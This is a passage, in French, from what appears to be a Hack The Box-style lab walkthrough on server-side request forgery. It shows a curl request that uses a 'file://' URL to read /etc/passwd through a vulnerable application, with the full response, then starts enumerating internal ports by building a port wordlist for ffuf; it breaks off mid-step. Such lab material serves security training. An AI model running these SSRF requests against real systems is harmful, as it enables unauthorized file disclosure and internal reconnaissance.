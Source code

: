1.  Récupérez un fichier local à l'aide du schéma de fichier, comme suit

#### Récupération d'un fichier local via l'application cible - Schéma de fichier

  Récupération d'un fichier local via l'application cible - Schéma de fichier

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

Gardez à l'esprit que la récupération de fichiers HTML distants peut conduire à un XSS réfléchi.

N'oubliez pas que nous n'avons que deux ports ouverts sur le serveur cible. Cependant, il est possible que des applications internes existent et n'écoutent que sur localhost. Nous pouvons utiliser un outil tel que ffuf pour énumérer ces applications Web en effectuant les étapes suivantes :

1.  Générez une liste de mots contenant tous les ports possibles.

#### Générer une liste de mots

  Générer une liste de mots

```
dsgsec@htb[/htb]$ for port in {1..65535};do echo $port >> ports.txt;done

```

1.  Envoyez une requête cURL à un port aléatoire pour obtenir la taille de réponse d'une requête pour un service inexistant.
